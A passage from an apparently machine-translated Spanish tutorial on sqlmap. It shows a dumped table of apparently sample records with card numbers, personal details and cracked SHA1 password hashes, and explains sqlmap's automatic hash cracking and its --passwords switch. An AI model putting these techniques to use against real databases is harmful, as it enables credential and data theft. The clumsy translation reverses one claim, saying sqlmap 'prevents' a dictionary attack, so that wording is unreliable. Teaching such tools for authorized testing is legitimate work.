 ```
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |

```

Podemos ver en el ejemplo anterior que SQLMAP tiene capacidades automáticas de agrietamiento de hashes con contraseña. Al recuperar cualquier valor que se asemeja a un formato hash conocido, SQLMAP nos impide realizar un ataque basado en el diccionario contra los hashes encontrados.

Los ataques de grietas hash se realizan de manera múltiple, según la cantidad de núcleos disponibles en la computadora del usuario. Actualmente, existe un soporte implementado para descifrar 31 tipos diferentes de algoritmos hash, con un diccionario incluido que contiene 1,4 millones de entradas (compiladas a lo largo de los años con las entradas más comunes que aparecen en fugas de contraseña disponibles públicamente). Por lo tanto, si un hash de contraseña no se elige al azar, existe una buena probabilidad de que SQLMAP lo descifra automáticamente.

---

# **DB Usuarios Enumeración de contraseña y agrietamiento**

Además de las credenciales de usuario que se encuentran en las tablas de DB, también podemos intentar volcar el contenido de tablas del sistema que contienen credenciales específicas de la base de datos (por ejemplo, credenciales de conexión). Para aliviar todo el proceso, SQLMAP tiene un interruptor especial`--passwords`diseñado especialmente para tal tarea:
